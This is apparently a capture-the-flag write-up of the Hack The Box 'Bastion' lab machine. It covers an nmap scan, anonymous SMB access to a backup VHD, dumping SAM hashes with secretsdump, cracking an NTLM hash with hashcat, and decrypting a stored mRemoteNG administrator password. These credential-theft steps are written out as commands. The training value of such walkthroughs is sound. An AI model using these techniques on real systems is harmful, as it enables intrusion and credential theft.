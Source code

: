 ## Nmap scan:
```
# Nmap 7.92 scan initiated Tue Jan  3 20:45:06 2023 as: nmap -sC -sV -p- -vv -Pn -oA full 10.10.10.134
Increasing send delay for 10.10.10.134 from 0 to 5 due to 517 out of 1723 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 10 to 20 due to 11 out of 13 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 20 to 40 due to 11 out of 13 dropped probes since last increase.
Nmap scan report for 10.10.10.134
Host is up, received user-set (0.075s latency).
Scanned at 2023-01-03 20:45:07 EST for 2639s
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      REASON          VERSION
22/tcp    open  ssh          syn-ack ttl 127 OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3bG3TRRwV6dlU1lPbviOW+3fBC7wab+KSQ0Gyhvf9Z1OxFh9v5e6GP4rt5Ss76ic1oAJPIDvQwGlKdeUEnjtEtQXB/78Ptw6IPPPPwF5dI1W4GvoGR4MV5Q6CPpJ6HLIJdvAcn3isTCZgoJT69xRK0ymPnqUqaB+/ptC4xvHmW9ptHdYjDOFLlwxg17e7Sy0CA67PW/nXu7+OKaIOx0lLn8QPEcyrYVCWAqVcUsgNNAjR4h1G7tYLVg3SGrbSmIcxlhSMexIFIVfR37LFlNIYc6Pa58lj2MSQLusIzRoQxaXO4YSp/dM1tk7CN2cKx1PTd9VVSDH+/Nq0HCXPiYh3
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Mau7cS9INLBOXVd4TXFX/02+0gYbMoFzIayeYeEOAcFQrAXa1nxhHjhfpHXWEj2u0Z/hfPBzOLBGi/ngFRUg=
|   256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB34X2ZgGpYNXYb+KLFENmf0P0iQ22Q0sjws2ATjFsiN
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-01-04T02:28:58
|_  start_date: 2023-01-04T01:43:05
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -19m58s, deviation: 34m36s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 15404/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26941/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55848/udp): CLEAN (Timeout)
|   Check 4 (port 18741/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-04T03:28:59+01:00

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  3 21:29:06 2023 -- 1 IP address (1 host up) scanned in 2639.24 seconds
```

139/445 - The main ports I was going to investigate, no web server so the answer is most likely there.
22 - SSH port for a windows box is unique, might be interesting later on.

I tried to log into the SMB without a password, and it worked:
```
smbclient \\\\10.10.10.134\\Backups\
```
At first I was trying to recursively download all of the files there, but it was very slow and didn't seem to work, and then I stumbled upon the ```note.txt``` file and read it:

!(images/bastion/Pasted_Image_20230104205316.png)

So I decided to mount the SMB share on my kali File System using this command:
```
mount -t cifs //10.10.10.134/Backups /mnt/smb
```
I searched for anything interesting there, and I found two .vhd files,
.vhd (virtual hard disk) file is: a disk image file format for storing the entire contents of a computer's hard drive. 
The disk image, sometimes called a virtual machine (VM), replicates an existing hard drive, including all data and structural elements.

!(images/bastion/Pasted_Image_20230104210016.png)

To list the files I used this command:
```
7z -l
```
And I could see that the first file contained only BOOT files, and the second one appeared to be the interesting one, so I used guestmount tool to view the files inside:
```
guestmount --add *filename* --inspector --ro -v /mnt/vhd
```

![testing](images/bastion/Pasted_Image_20230104210329.png)
After a while of enumeration, I couldn't find any flags or other files that could be useful so I decided to copy the SAM and SYTEM files and dump them later on.
to do that I did this:
```
cd /Windows/Sytem32/config/
cp SYSTEM SAM .
secretsdump.py -sam SAM -system SYSTEM local
```
And this is what I got:
```
[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 
```
I used hashcat to crack L4mpje NTLM hash:
```
hashcat -m 1000 L4mpje_hash /usr/share/wordlists/rockyou.txt
``` 
Result:
```
26112010952d963c8dc4217daec986d9:bureaulampje
```

Since WinRM port (5985) Was open, I tried to connect via evil-winrm, and when it didn't work I tried using the SSH port and it worked.


# Privilege Escalation

I used winPEAS for enumeration at first, but couldn't find anything that was useful.
So I started to enumerate manually, and I found mRemoteNG directory on ```C:\Program Files (x86)```
I have never seen seen it before, so I searched and read about it, and this is what I found:

**mRemoteNG:**
mRemoteNG (mremote) is an open source project (https://github.com/rmcardle/mRemoteNG) that provides a full-featured, multi-tab remote connections manager. It  supports RDP, SSH, Telnet, VNC, ICA, HTTP/S, rlogin, and raw socket connections. Additionally, It also provides the means to save connection settings such as hostnames, IP addresses, protocol, port, **and user credentials, in a password protected and encrypted connections file.**

The password can be found at ```%appdata%/mRemoteNG``` in a file named confCons.xml. This password can sometimes be the administrator password

!(images/bastion/Pasted_Image_20230104222607.png)

When I read the file I found this:
```                                                                                                                                           
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Userna                                                             
me="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="                                                             
```
It looks like the Administrator password, to decrypt it I used a tool called [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)
!(images/bastion/Pasted_Image_20230104223021.png)

I connected via SSH, and it worked:

!(images/bastion/Pasted_Image_20230104223144.png)

testing